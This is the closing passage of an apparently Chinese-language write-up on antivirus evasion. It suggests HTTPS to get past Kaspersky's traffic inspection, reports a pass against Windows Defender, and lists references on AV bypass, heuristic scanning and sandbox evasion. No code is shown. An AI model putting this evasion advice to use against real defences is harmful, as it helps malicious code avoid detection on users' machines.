

卡巴可能是查流量的，有师傅说可以尝试https就能通过，各位可以试试

windows defender pass



参考文献

* <https://github.com/Airboi/bypass-av-note>
* 启发式扫描

* <https://www.cnblogs.com/predator-wang/p/4815495.html>
* <https://www.kaspersky.com.cn/resource-center/definitions/heuristic-analysis>

* 沙箱绕过

* <https://xz.aliyun.com/t/15299>
